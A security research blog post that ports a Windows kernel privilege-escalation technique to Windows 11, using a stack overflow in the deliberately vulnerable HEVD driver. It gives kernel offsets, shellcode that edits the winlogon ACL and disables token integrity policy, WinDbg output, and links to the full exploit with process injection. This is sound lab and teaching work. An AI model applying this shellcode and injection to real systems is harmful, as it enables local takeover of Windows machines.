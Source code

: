 ```yaml
---
layout: default
title: "kernel_shellcode_acl_edit"
date: 2024-11-14 21:00:00 -0000
categories: posts
---
```


# Revisiting Windows Kernel Shellcode on Windows 11: Stack Buffer Overflow with ACL Edit

## Introduction

This post revisits the ACL kernel shellcode technique demonstrated in [Improsec's blog post](https://blog.improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-2) using HackSys Extreme Vulnerable Driver (HEVD), but updated for Windows 11. It makes use of the stack buffer overflow to modify the ACL of the winlogon process, and then spawns an elevated command prompt by injecting shellcode into the winlogon process.

## Background

The original technique involves changing the ACE of the SYSTEM entry, for the winlogon process, so that its SID matches that of the Authenticated Users group. In addition, the current process token mandatory integrity policy is changed to `TOKEN_MANDATORY_POLICY_OFF`. This is to allow the current process to get a handle to the winlogon process and create a remote thread to spawn an elevated command prompt.

The mandatory policies can be found at https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-token_mandatory_policy.

In what follows, this post will demonstrate the technique on Windows 11, version 23H2, along with full exploit code, from triggering the overflow to spawning the elevated command prompt. SMEP/KPTI are disabled.

```bash
OS Name:                   Microsoft Windows 11 Pro
OS Version:                10.0.22631 N/A Build 22631
OS Manufacturer:           Microsoft Corporation
```

## Technical Implementation 

The exploit follows these steps:

1. Obtain handle to the vulnerable driver
2. Trigger buffer overflow to execute kernel shellcode
2. Craft shellcode that:
   - Locates winlogon process in kernel memory
   - Modifies ACL entries to grant access to the Authenticated Users group
4. Inject shellcode into winlogon process to spawn elevated command prompt

The initial HEVD exploitation is well documented and triggering the buffer overflow can be found in many other posts.

The original blog post analysis still holds on Windows 11.

The security descriptor of the winlogon process can still be found at the same offsets,

```bash
0: kd> !process 0 0 winlogon.exe
PROCESS ffffe481acef1080
    SessionId: 1  Cid: 02d8    Peb: 7bab37d000  ParentCid: 026c
    DirBase: 10da60000  ObjectTable: ffff8081a273d080  HandleCount: 280.
    Image: winlogon.exe
```

And getting the security descriptor offset from the object header at EPROCESS-0x30,

```bash
0: kd> dt nt!_OBJECT_HEADER ffffe481acef1080-30 SecurityDescriptor
   +0x028 SecurityDescriptor : 0xffff8081`9fc5adaf Void
```

The security descriptor is found at EPROCESS-0x30+0x28 but its lower 4 bits are a fast reference, so they must be masked off,

```bash
0: kd> !sd 0xffff8081`9fc5ada0
->Revision: 0x1
->Sbz1    : 0x0
->Control : 0x8814
            SE_DACL_PRESENT
            SE_SACL_PRESENT
            SE_SACL_AUTO_INHERITED
            SE_SELF_RELATIVE
->Owner   : S-1-5-32-544
->Group   : S-1-5-18
->Dacl    : 
->Dacl    : ->AclRevision: 0x2
->Dacl    : ->Sbz1       : 0x0
->Dacl    : ->AclSize    : 0x3c
->Dacl    : ->AceCount   : 0x2
->Dacl    : ->Sbz2       : 0x0
->Dacl    : ->Ace[0]: ->AceType: ACCESS_ALLOWED_ACE_TYPE
->Dacl    : ->Ace[0]: ->AceFlags: 0x0
->Dacl    : ->Ace[0]: ->AceSize: 0x14
->Dacl    : ->Ace[0]: ->Mask : 0x001fffff
->Dacl    : ->Ace[0]: ->SID: S-1-5-18

->Dacl    : ->Ace[1]: ->AceType: ACCESS_ALLOWED_ACE_TYPE
->Dacl    : ->Ace[1]: ->AceFlags: 0x0
->Dacl    : ->Ace[1]: ->AceSize: 0x18
->Dacl    : ->Ace[1]: ->Mask : 0x00121411
->Dacl    : ->Ace[1]: ->SID: S-1-5-32-544

->Sacl    : 
->Sacl    : ->AclRevision: 0x2
->Sacl    : ->Sbz1       : 0x0
->Sacl    : ->AclSize    : 0x1c
->Sacl    : ->AceCount   : 0x1
->Sacl    : ->Sbz2       : 0x0
->Sacl    : ->Ace[0]: ->AceType: SYSTEM_MANDATORY_LABEL_ACE_TYPE
->Sacl    : ->Ace[0]: ->AceFlags: 0x0
->Sacl    : ->Ace[0]: ->AceSize: 0x14
->Sacl    : ->Ace[0]: ->Mask : 0x00000003
->Sacl    : ->Ace[0]: ->SID: S-1-16-16384
```

The ACEs are found at the same offsets as well. The remaining analysis of the mandatory integrity policy is the same as the original blog post.

## Code Walkthrough

The full exploit code can be found in [src/main.rs](https://github.com/glslang/hevd-exp/blob/main/stack_buffer_overflow_acl_edit/src/main.rs).

The ACL edit shellcode can be found in [acl_edit.asm](https://github.com/glslang/win-kexp/blob/main/src/asm/acl_edit.asm).

The updated offsets used in the shellcode are,

```bash
KTHREAD_OFFSET        EQU 188h    ; Offset to current KTHREAD from GS
EPROCESS_OFFSET       EQU 0B8h    ; Offset to EPROCESS from KTHREAD
ACTIVEPROCESSLINKS    EQU 448h    ; Offset to ActiveProcessLinks
IMAGEFILENAME_OFFSET  EQU 5A8h    ; Offset to ImageFileName
TOKEN_OFFSET          EQU 4b8h    ; Offset to process token
```

Then it proceeds to find the winlogon process,

```
    mov rax,gs:[rax+KTHREAD_OFFSET]    ; Get current KTHREAD
    mov rax,[rax+EPROCESS_OFFSET]      ; Get current EPROCESS
    mov rcx,rax
__loop:
    mov rax,[rax+ACTIVEPROCESSLINKS]                        ; Get next process
    sub rax,ACTIVEPROCESSLINKS                              ; Adjust to get EPROCESS base
    cmp dword ptr [rax+IMAGEFILENAME_OFFSET],6c6e6977h      ; Compare ImageFileName
    jnz __loopbash
```

RAX now points to the winlogon process EPROCESS, and RCX contains the current EPROCESS.

```bash
    sub rax,30h
    add rax,28h
```

The offset to the object header is found by subtracting 0x30 and then the security descriptor is found by adding 0x28 from the EPROCESS base. The two instructions are for clarity of the explanation.

The next step is to modify the ACL entries,

``` bash
    mov rax, qword ptr [rax]
    and rax,0FFFFFFFFFFFFFFF0h
    add rax,48h
    mov byte ptr [rax],0bh
```

RAX is dereferenced and the security descriptor is masked off. Adding 0x48 to the address gets to the first ACE and the byte at that location is modified to 11 (0x0B), which is the 18 (0x12) for the SYSTEM ACE.

The remaining shellcode is for setting the mandatory integrity policy,

``` bash
    mov rdx, qword ptr [rcx+TOKEN_OFFSET]
    and rdx,0FFFFFFFFFFFFFFF0h
    add rdx,0d4h
    mov byte ptr [rdx],0
```

RDX is set to the token address and masked off. Adding 0xd4 to the address gets to the mandatory integrity policy and the byte at that location is modified to 0, which is the `TOKEN_MANDATORY_POLICY_OFF` value.

The shellcode also contains an epilogue to restore the original stack and registers to safely return to the caller.

The remaining exploit code is for injecting the shellcode into the winlogon process and spawning the elevated command prompt. The injection is a standard injection. The handle to the victim process is returned, memory for the shellcode is allocated and written to the user space of the victim process, and then a remote thread is created to execute the shellcode.

These steps can be found at https://github.com/glslang/win-kexp/blob/main/src/process.rs#L112.

Executing the exploit code and our elevated command prompt can be found below,

![Launching the elevated command prompt](/assets/images/acl_edit_system.png)

## Conclusion

This post revisits the ACL edit technique on Windows 11 and demonstrates the technique with full exploit code, with the expectation that the source code can be used to understand the technique and to better follow along with the original blog post.

## References

- https://blog.improsec.com/tech-blog/windows-kernel-shellcode-on-windows-10-part-2
- https://github.com/hacksysteam/HackSysExtremeVulnerableDriver
- https://github.com/glslang/win-kexp
